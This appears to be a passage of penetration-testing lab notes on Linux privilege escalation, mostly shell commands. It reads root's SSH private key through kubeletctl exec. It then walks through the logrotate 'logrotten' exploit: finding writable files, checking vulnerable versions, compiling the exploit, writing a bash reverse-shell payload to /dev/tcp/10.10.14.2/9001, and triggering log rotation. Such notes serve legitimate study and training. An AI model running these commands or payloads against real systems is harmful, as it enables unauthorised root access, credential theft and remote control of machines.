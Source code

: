 #### Extracting Root's SSH Key
```shell
$ kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc

-----BEGIN OPENSSH PRIVATE KEY-----
```

## Logrotate 
1. we need write permissions on the log files
```shell
# find writable files or directories
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```
3. logrotate must run as a privileged user or root
```shell
ls -l $(which logrotate)

-rwxr-xr-x 1 root root 107712 Nov  6  2022 /usr/sbin/logrotate
```
4. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0
```shell
logrotate -v
```

here is the exploit [logrotten](https://github.com/whotwagner/logrotten)

- We can download and compile it on a similar kernel of the target system and then transfer it to the target system.
- or if we can compile the code on the target system.
```shell
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
```
payload
```shell
$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```
before running the exploit, we need to determine which option logrotate uses in logrotate.conf.

```shell
$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```

```shell
# If "create"-option is set in logrotate.cfg:
./logrotten -p ./payloadfile /tmp/log/pwnme.log

# If "compress"-option is set in logrotate.cfg:
./logrotten -p ./payloadfile -c -s 4 /tmp/log/pwnme.log

```
we need to trigger the log file to rotate
```shell
logrotate -f /tmp/pwnme.log

# edit /var/lib/logrotate.status to a date in the future. This tricks logrotate into thinking that the rotation hasn't occurred yet today

# edit the log file  to add anything in it
```

